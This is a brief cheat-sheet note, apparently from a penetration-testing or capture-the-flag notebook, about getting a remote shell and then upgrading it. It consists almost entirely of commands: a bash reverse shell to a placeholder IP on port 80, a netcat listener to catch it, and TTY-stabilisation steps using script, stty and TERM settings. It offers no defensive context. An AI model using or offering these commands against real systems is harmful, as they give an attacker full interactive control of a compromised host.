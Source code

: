 
Interesting observation where a user upgraded the usability of their shell

```
`bash -c 'bash -i >& /dev/tcp/[IP]/80 0>&1'

nc -nvlp 80


script -qc /bin/bash /dev/null
[CTRL+Z]

stty raw -echo; fg
			reset xterm


echo $TERM

export TERM=xterm
```


auto